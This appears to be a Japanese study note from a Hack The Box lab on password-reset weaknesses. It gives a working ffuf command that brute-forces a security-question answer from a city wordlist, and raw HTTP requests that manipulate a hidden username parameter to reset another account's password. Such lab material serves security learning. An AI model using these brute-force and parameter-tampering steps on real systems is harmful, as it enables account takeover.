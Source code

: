 これらの質問は個々のユーザーに結びついているように見える
- しかし、多くの場合、OSINTを通じて取得されたり、十分な試行回数（つまり、ブルートフォース保護の欠如）があれば推測されたりする可能性がある

たとえば、ウェブアプリケーションが「生まれた都市はどこですか？」のようなセキュリティの質問を使用していると仮定
- 世界には大都市のワードリストが複数存在
	- https://github.com/datasets/world-cities/blob/main/data/world-cities.csv
	- ブルートフォースできる
	- 何かわかっていれば絞り込んでブルートフォースすることもできる

例
- 回答をブルートフォースするための対応する `ffuf` コマンドをセットアップできる
- ユーザー名「admin」とリクエストを関連付けるために、セッションクッキーを指定する必要がある
	- burpsuiteなどで取得
上のワードリストから、都市名のみを取得
```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

ffufでブルートフォース
```shell-session
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```


### リセットリクエストのロジック面での脆弱性
- 欠陥のあるパスワードリセットロジックの別の例は、ユーザーが**潜在的に隠されたパラメータを操作して、別のアカウントのパスワードをリセットできる**場合に発生

htb-stdntとして、reset_password.phpを行うが、リクエストの中に`username`が入っている
```sh
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

```sh
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

```sh
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```
